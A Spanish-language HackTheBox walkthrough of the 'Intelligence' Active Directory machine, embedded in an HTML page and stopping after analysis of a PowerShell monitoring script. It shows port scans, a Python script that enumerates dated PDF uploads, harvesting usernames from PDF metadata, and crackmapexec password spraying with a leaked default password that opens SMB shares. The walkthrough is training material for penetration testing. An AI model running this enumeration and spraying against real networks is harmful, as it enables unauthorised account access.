





<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - Intelligence</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "Intelligence" de HackTheBox

Caracteristicas:

- Windows  
- Media 
- Active Directory  
- Information Leakage 
- Kerberos Enumeration (Kerbrute) 
- Creating a DNS Record (dnstool.py) [Abusing ADIDNS] 
- Intercepting Net-NTLMv2 Hashes with Responder 
- BloodHound Enumeration 
- Abusing ReadGMSAPassword Rights (gMSADumper) 
- Pywerview Usage 
- Abusing Unconstrained Delegation 
- Abusing AllowedToDelegate Rights (getST.py) (User Impersonation) Using .ccache file with wmiexec.py (KRB5CCNAME) Active Directory

Util en:

- OSCP 
- OSEP 
- Active Directory

        IP 10.10.10.248

- nmap -p- -oA scans/nmap-alltcp 10.10.10.248   

<pre>
<code>
PORT      STATE SERVICE

53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
9389/tcp  open  adws
49667/tcp open  unknown
49702/tcp open  unknown
49714/tcp open  unknown
51596/tcp open  unknown
</code>
</pre>

- nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,9389 -sCV -oA scans/nmap-tcpscripts 10.10.10.248


<pre>
<code>

    PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Intelligence
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-08-13 08:43:33Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2021-08-13T08:44:54+00:00; +7h03m18s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2021-08-13T08:44:54+00:00; +7h03m18s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2021-08-13T08:44:54+00:00; +7h03m18s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2021-08-13T08:44:54+00:00; +7h03m18s from scanner time.
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h03m17s, deviation: 0s, median: 7h03m17s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-08-13T08:44:15
|_  start_date: N/A
</code>
</pre>

podemos ver muchos puertos abiertos, los resultados sugieren que el host es el controlador de dominio del dominio intelligence.htb vemos 4 servidores web en los puertos. 
80, 593, 5985 y 49691 tambien en la parte inferior podemos ver que hay una diferencia con la victima de 7 horas entre nuestro host y el host de destino.
agregaremos los dominios encontrados al /etc/hosts intelligence.htby dc.intelligence.htb.
comenzaremos con los dos servidores web que no manejan entradas a procedimientos remotos (RPC), ya que las aplicaciones web suelen constituir una superficie de ataque 
mayor que otros servicio, asi que procedemos.




Si nos desplazamos hacia abajo, también podemos encontrar un servicio de suscripción y dos botones de descarga. 

Los botones de descarga enlazan a las páginas http://10.10.10.248/documents/2020-01-01-upload.pdf y http://10.10.10.248/documents/2020-12-15-upload.pdf que son dos PDF 
archivos que contienen información poco interesante. 
algo que pódemos tener en mente es que los unicos caracteres impredecibles son los caracteres de la fecha de carga. Podriamos sospechar que otros archivos podrian 
haberse subido en otras fechas. adivinar manualmente puede ser una tarea tediosa. asi que haremos un script en python como el que se muestra a continuacion
En las líneas 4 a 6, establecemos el objetivo a atacar, así como la fecha de inicio y finalización. Los dos enlaces que ya conocemos se cargaron en 2020 y, 
por lo tanto, elegimos verificar si hay cargas de 2019 a 2021. 

<pre>
<code>
import datetime, requests

# Parameters
baseURL = "http://10.10.10.248/"
start = datetime.datetime(2019,1,1)
stop = datetime.datetime(2022,1,1)

# Create a list of dates between the start and stop date
numdays = (stop - start).days
dates = [start + datetime.timedelta(days=ndays) for ndays in range(numdays)]
dates = [date.strftime("%Y-%m-%d") for date in dates]

# Attempt to download a PDF for each date
for date in dates:
	print(date, end="\r")
	URL = baseURL+"documents/"+date+"-upload.pdf"
	response = requests.get(URL)

	if response.status_code == 200:
		filename = "./"+date+".pdf"
		print("[*] PDF Found! Downloading " + URL + " to " + filename)
		with open(filename, 'wb') as f:
		    f.write(response.content)
</code>
</pre>

En la línea 9, calculamos el número de días entre la fecha de inicio y finalización que especificamos anteriormente. Luego, en la línea 10, usamos la comprensión de 
listas para generar una lista de todas las fechas que queremos investigar. En la línea 11, formateamos la lista de fechas con el formato que vimos en los enlaces. 
Luego, repetimos todas las fechas usando un bucle for. En el bucle for, utilizamos una declaración impresa para informarle al usuario qué fecha estamos investigando 
actualmente. Tenga en cuenta que utilizamos end="\r"para mantener esta información en una línea que se actualiza automáticamente. Las siguientes dos líneas construyen 
una URL usando una fecha y envían una solicitud a esta URL. Luego, en las líneas 19 a 23, verificamos si el código de estado resultante era 200 OK. Si es así, 
hemos encontrado un PDF válido y lo escribimos en un archivo

La ejecución del script genera una gran cantidad de archivos PDF identificados. Para cada PDF, hay dos cosas que podemos comprobar. El primero son los metadatos y el 
segundo es el contenido real del PDF. Podemos extraer metadatos de archivos PDF usando exiftool, como se demuestra a continuación. Al hacer esto para uno de nuestros 
archivos PDF, descubrimos que hay una etiqueta de metadatos llamada "Creador" que contiene el nombre de usuario del usuario que creó el archivo. Al ejecutar exiftool 
*.pdf | grep "Creator"podemos obtener una lista del creador de cada archivo PDF. 

<pre>
<code>
    ┌──(kali㉿kali)-[/tmp/x]
└─$ exiftool 2020-01-01.pdf
ExifTool Version Number         : 12.40
File Name                       : 2020-01-01.pdf
Directory                       : .
File Size                       : 26 KiB
File Modification Date/Time     : 2022:04:10 03:35:58-04:00
File Access Date/Time           : 2022:04:10 03:35:59-04:00
File Inode Change Date/Time     : 2022:04:10 03:35:58-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 1
Creator                         : William.Lee
                                                                                                
┌──(kali㉿kali)-[/tmp/x]
└─$ exiftool *.pdf | grep "Creator"
Creator                         : William.Lee
Creator                         : Scott.Scott
Creator                         : Jason.Wright
Creator                         : Veronica.Patel
[...]
Creator                         : Jose.Williams
Creator                         : Veronica.Patel
Creator                         : Ian.Duncan
Creator                         : Richard.Williams
                                                      
</code>
</pre>

podemos crear una lista de nombres de usuario. Usamos la bandera -F para especificar que el carácter de dos puntos debe ser el separador de campo y la función gsub para 
eliminar los espacios. Entonces, usamos print $2 para seleccionar el segundo campo de cada línea, que será un nombre de usuario ya que el separador de campos son los dos 
puntos. Almacenamos la lista resultante de nombres de usuario en un archivo llamado "users.txt". 

<pre>
<code>
┌──(kali㉿kali)-[/tmp/x]
└─$ exiftool *.pdf | grep "Creator" | awk -F ":" '{gsub(/ /,""); print $2}' > users.txt
                                                                                                                    
┌──(kali㉿kali)-[/tmp/x]
└─$ head users.txt
William.Lee
Scott.Scott
Jason.Wright
Veronica.Patel
Jennifer.Thomas
Danny.Matthews
David.Reed
Stephanie.Young
Daniel.Shelton
Jose.Williams
                                                                                                                    
┌──(kali㉿kali)-[/tmp/x]
└─$
</code>
</pre>

algo mas que haremos sera inspeccionar el contenido. Podemos utilizar algo como abiword (https://github.com/AbiWord/abiword) para extraer el texto de un PDF como se muestra
a continuación. Usamos la bandera --to  para especificar que queremos que la herramienta convierta el contenido del PDF en datos textuales  y el --to-name bandera para especificar que 
la salida debe escribirse en el archivo que tiene el descriptor de archivo 1.  En los sistemas de archivos basados en UNIX, los descriptores de archivos 0, 1 y 2 corresponde a STDIN, 
STDOUT y STDERR. Como tal, este indicador garantiza que la salida se escriba en una salida estándar en lugar de en un archivo. 

<pre>
<code>
- abiword --to=txt --to-name=fd://1 2020-01-01.pdf

Dolore ut etincidunt adipisci aliquam labore.
Dolore quaerat porro neque amet. Non ipsum quiquia ut dolor modi porro.
Magnam dolor dolor etincidunt magnam adipisci etincidunt magnam. Aliquam
eius ipsum sed amet dolorem voluptatem. Dolore tempora magnam tempora
est ipsum. Modi etincidunt consectetur porro numquam eius magnam velit.
Est consectetur non tempora velit sed labore. Velit sed labore voluptatem est
tempora. Magnam etincidunt consectetur sed dolorem amet labore.
Adipisci est eius voluptatem. Adipisci sed dolorem ut etincidunt non etincidunt
numquam. Quisquam sit tempora voluptatem. Numquam ut dolore consectetur dolor quaerat quisquam. Tempora dolorem dolore dolore etincidunt modi.
Magnam aliquam quisquam porro. Modi est ut numquam dolor dolorem neque.
</code>
</pre>

haremos esto para extraer el texto de todos los documentos y buscar salidas con palabras relacionadas a password etc buscando info interesante. Podemos usar la bandera -C para
mostrar algunos datos antes y despues de las coincidencias dentro de los archivos asi que al lanzarlo podemos encontrar que NewIntelligenceCorpUser9876 es una contraseña predeterminada 
que los usuarios deben cambiar después de iniciar sesión. 

<pre>
<code>
┌──(kali㉿kali)-[/tmp/x]
└─$ abiword --to=txt --to-name=fd://1 *.pdf | grep -C 5 "password"


Sit porro tempora porro etincidunt adipisci.


New Account Guide
Welcome to Intelligence Corp!
Please login using your username and the default password of:
NewIntelligenceCorpUser9876
After logging in please change your password as soon as possible.


Dolor quisquam aliquam amet numquam modi.
Sit porro tempora sit adipisci porro sit quiquia. Ut dolor modi magnam ipsum
velit magnam. Ipsum ut numquam tempora sit. Tempora eius est voluptatem.
Dolorem numquam consectetur etincidunt etincidunt sed. Neque magnam ipsum modi sit aliquam amet. Amet consectetur modi quisquam adipisci aliquam
</code>
</pre>

recordemos que durante la face de escaneo, descubrimos los puertos SMB 139 Y 445 estaban abiertos. como para acceder a smb debemos autenticarnos. podriamos revisar si alguno no cambio la password
esto se puede hacer mediante crackmapexec. como se muestra abajo descubriremos que tiffany.Molina aun no cambia su password
<pre>
<code>
    ┌──(kali㉿kali)-[/tmp/x]
└─$ crackmapexec smb 10.10.10.248 -u users.txt -p NewIntelligenceCorpUser9876                      
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.248    445    DC               [-] intelligence.htb\William.Lee:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Scott.Scott:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Jason.Wright:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Veronica.Patel:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Jennifer.Thomas:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Danny.Matthews:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\David.Reed:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Stephanie.Young:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Daniel.Shelton:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Jose.Williams:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\John.Coleman:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Jason.Wright:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Jose.Williams:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Daniel.Shelton:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Brian.Morris:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Jennifer.Thomas:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Thomas.Valenzuela:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Travis.Evans:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Samuel.Richardson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Richard.Williams:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\David.Mcbride:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Jose.Williams:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\John.Coleman:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\William.Lee:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Anita.Roberts:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Brian.Baker:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Jose.Williams:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\David.Mcbride:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Kelly.Long:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\John.Coleman:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Jose.Williams:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Nicole.Brock:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Thomas.Valenzuela:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\David.Reed:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Kaitlyn.Zimmerman:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Jason.Patterson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Thomas.Valenzuela:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\David.Mcbride:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Darryl.Harris:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\William.Lee:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Stephanie.Young:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\David.Reed:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Nicole.Brock:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\David.Mcbride:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\William.Lee:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Stephanie.Young:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\John.Coleman:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\David.Wilson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Scott.Scott:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Teresa.Williamson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\John.Coleman:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Veronica.Patel:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\John.Coleman:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Samuel.Richardson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Ian.Duncan:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Nicole.Brock:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\William.Lee:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Jason.Wright:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Travis.Evans:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\David.Mcbride:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Jessica.Moody:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Ian.Duncan:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Jason.Wright:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Richard.Williams:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 

┌──(kali㉿kali)-[/tmp/x]
└─$ 
</code>
</pre>

Podemos usar las credenciales recién descubiertas para verificar qué SMB comparte el Tiffany.Molinael usuario tiene acceso. Esto da como resultado el descubrimiento de las 4 acciones no estándar. 
IT, NETLOGON, SYSVOLy Users. Nosotros podemos usar smbclientpara conectarse a cada uno de estos recursos compartidos como Tiffany.Molina  Al hacer esto, descubrimos un archivo llamado 
"downdetector.ps1" en el IT compartir. Podemos descargar este archivo ejecutando get downdetector.ps1. 

<pre>
<code>
    ┌──(kali㉿kali)-[/tmp/x]
└─$ crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --shares
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
SMB         10.10.10.248    445    DC               [+] Enumerated shares
SMB         10.10.10.248    445    DC               Share           Permissions     Remark
SMB         10.10.10.248    445    DC               -----           -----------     ------
SMB         10.10.10.248    445    DC               ADMIN$                          Remote Admin
SMB         10.10.10.248    445    DC               C$                              Default share
SMB         10.10.10.248    445    DC               IPC$            READ            Remote IPC
SMB         10.10.10.248    445    DC               IT              READ            
SMB         10.10.10.248    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.10.248    445    DC               SYSVOL          READ            Logon server share 
SMB         10.10.10.248    445    DC               Users           READ            
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[/tmp/x]
└─$ smbclient \\\\10.10.10.248\\IT -U Tiffany.Molina%NewIntelligenceCorpUser9876         
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Apr 18 20:50:55 2021
  ..                                  D        0  Sun Apr 18 20:50:55 2021
  downdetector.ps1                    A     1046  Sun Apr 18 20:50:55 2021

                3770367 blocks of size 4096. 1447069 blocks available
smb: \> get downdetector.ps1
getting file \downdetector.ps1 of size 1046 as downdetector.ps1 (3.1 KiloBytes/sec) (average 3.1 KiloBytes/sec)
smb: \> exit
</code>
</pre>

<pre>
<code>
┌──(kali㉿kali)-[/tmp/x]
└─$ file downdetector.ps1
downdetector.ps1: Unicode text, UTF-16, little-endian text, with CRLF, LF line terminators
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[/tmp/x]
└─$ dos2unix downdetector.ps1
dos2unix: converting UTF-16LE file downdetector.ps1 to UTF-8 Unix format...
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[/tmp/x]
└─$ nano downdetector.ps1
</code>
</pre>

Dado que este archivo se originó en un host de Windows, está codificado como UTF-16 little-endian con terminadores de línea CRLF, como se puede ver arriba. Endianess define en qué orden se deben 
almacenar los bytes en la memoria. Por ejemplo, usando codificación big endian y UTF-8, almacenaríamos la cadena "ABC" como 0x41424300en memoria. Por el contrario, si usáramos little endian, 
la cadena se almacenaría como 0x00434241. Además, UTF-16 es simplemente una codificación de caracteres, lo que significa que es una asignación uno a uno entre valores binarios y caracteres. 

Finalmente, Windows usa un carácter de retorno de carro (CR) y un avance de línea (LF) para marcar el final de una línea, mientras que Linux solo usa un carácter de avance de línea (LF). 
Si queremos abrir este archivo en un editor de texto, como nano, necesitaremos convertirlo a un formato compatible con Linux. Podemos hacer esto usando el dos2unix herramienta. 

De un comentario en la parte superior de la downdetector.ps1script, que se muestra a continuación, podemos ver que este script se ejecuta cada 5 minutos. El script contiene un bucle for que 
itera a través de cada objeto hijo de AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htbdonde el nombre del objeto hijo comienza con la cadena "web". El niño se 
opone a AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htbson una lista de dominios donde cada dominio que comienza con "web" es un dominio que el script debe 
garantizar que esté en funcionamiento. 

<pre>
<code>
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
	try {
		$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
		if(.StatusCode -ne 200) {
			Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
		}
	} catch {}
}
</code>
</pre>

Dentro del bucle for, el cmdlet Invoke-WebRequest se utiliza para enviar una solicitud web a cada objeto sobre el que estamos iterando. La cláusula if en la línea 6 intenta verificar 
si el código de respuesta para la respuesta de esta solicitud no es igual a 200 OK. Si este no es el caso, el sitio web no funciona correctamente y se deberá enviar un correo electrónico al 
usuario. Ted.Graves para hacerle saber que hay un problema con este sitio web en particular. 

